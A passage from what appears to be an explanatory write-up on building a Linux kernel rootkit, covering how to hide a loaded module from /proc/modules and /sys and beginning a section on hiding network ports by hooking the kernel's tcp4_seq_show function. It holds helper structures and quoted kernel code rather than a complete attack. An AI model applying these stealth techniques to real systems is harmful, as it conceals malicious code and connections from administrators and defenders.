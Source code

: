 ​	We should keep the previous module of the module we hide, to add it back to the module list.

​	*THIS_MODULE* macro gives us the pointer to current module's *module* struct. We start our traverse here to find the module we want to hide. Also, there are also some auxilary data structure to help *hide_module_name()*, similar to the ones in hiding a file

```c
struct cloak_mod_cmd{
    char name[MAX_CLOAK_MOD_NAME_LEN];
};

struct cloak_mod_ent{
    struct list_head* prev_mod;
    char name_buf[MAX_CLOAK_MOD_NAME_LEN];
};

static struct list_head* prev_mod;  // previous module of rootkit
static struct cloak_mod_ent cloak_mod_ent_array[MAX_CLOAK_MOD_COUNT];

```



​	After we hiding a module, the read to */proc/modules* will no longer return the module's information. But there is still detail information stored in the */sys/modules/* directories for the cloaked module. It is a good idea to add the directory name(the rootkits's name) to the cloak file array to make it totally invisible.



## 6. hide ports

### kernel mechanisms

​	The bash command *netstat* reads the sequence file */proc/net/tcp* (for ipv4) to get network related information from the kernel. The sequence file related functions are defined in *net/ipv4/tcp_ipv4.c*. The output we get from *netstat* is issued by *tcp4_seq_show()* function, which is the "show" function of the sequence file. The definition is as follows:

```c
static int tcp4_seq_show(struct seq_file *seq, void *v)
{
	struct tcp_iter_state *st;
	struct sock *sk = v;

	seq_setwidth(seq, TMPSZ - 1);
	if (v == SEQ_START_TOKEN) {
		seq_puts(seq, "  sl  local_address rem_address   st tx_queue "
			   "rx_queue tr tm->when retrnsmt   uid  timeout "
			   "inode");
		goto out;
	}
	st = seq->private;

	if (sk->sk_state == TCP_TIME_WAIT)
		get_timewait4_sock(v, seq, st->num);
	else if (sk->sk_state == TCP_NEW_SYN_RECV)
		get_openreq4(v, seq, st->num);
	else
		get_tcp4_sock(v, seq, st->num);
out:
	seq_pad(seq, '\n');
	return 0;
}
```
